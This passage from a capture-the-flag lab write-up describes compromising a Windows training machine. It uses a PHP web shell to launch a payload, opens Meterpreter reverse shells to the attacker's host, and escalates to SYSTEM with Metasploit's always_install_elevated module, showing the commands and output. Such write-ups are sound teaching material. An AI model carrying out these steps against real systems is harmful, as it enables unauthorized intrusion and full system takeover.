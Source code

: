 The "simple-backdoor.php" payload allows us to execute commands on the target system passed as parameter in the request. Passing "dir" as input shows the contents of the directory and proves that our exploit works.
![dir](./dir.png "dir")
Now, we can execute the .exe payload by passing "exploit.exe" as command to the PHP script and a user shell is obtained.
```
[*] Sending stage (175174 bytes) to 10.10.10.239
[*] Meterpreter session 1 opened (10.10.16.173:1337 -> 10.10.10.239:56465) at 2021-06-12 13:41:17 -0400

meterpreter > getuid
Server username: LOVE\Phoebe
```
The user flag is accessible now.

## **Privilege Escalation**
The metasploit module, "multi/recon/local_exploit_suggester", makes it easy to find exploits for privilege escalation.
```
msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.239 - Collecting local exploits for x86/windows...
[*] 10.10.10.239 - 38 exploit checks are being tried...
[+] 10.10.10.239 - exploit/windows/local/always_install_elevated: The target is vulnerable.
[+] 10.10.10.239 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.239 - exploit/windows/local/bypassuac_fodhelper: The target appears to be vulnerable.
[+] 10.10.10.239 - exploit/windows/local/bypassuac_sluihijack: The target appears to be vulnerable.
[+] 10.10.10.239 - exploit/windows/local/ikeext_service: The target appears to be vulnerable.
[+] 10.10.10.239 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[*] Post module execution completed
```
Only the always_install_elevated module works and gives a SYSTEM shell.
```
msf6 exploit(windows/local/always_install_elevated) > run

[*] Started reverse TCP handler on 10.10.16.173:4444 
[*] Uploading the MSI to C:\Users\Phoebe\AppData\Local\Temp\gwrmiMEZs.msi ...
[*] Executing MSI...
[*] Sending stage (175174 bytes) to 10.10.10.239
[+] Deleted C:\Users\Phoebe\AppData\Local\Temp\gwrmiMEZs.msi
[*] Meterpreter session 2 opened (10.10.16.173:4444 -> 10.10.10.239:56466) at 2021-06-12 13:46:48 -0400

meterpreter > getuid
```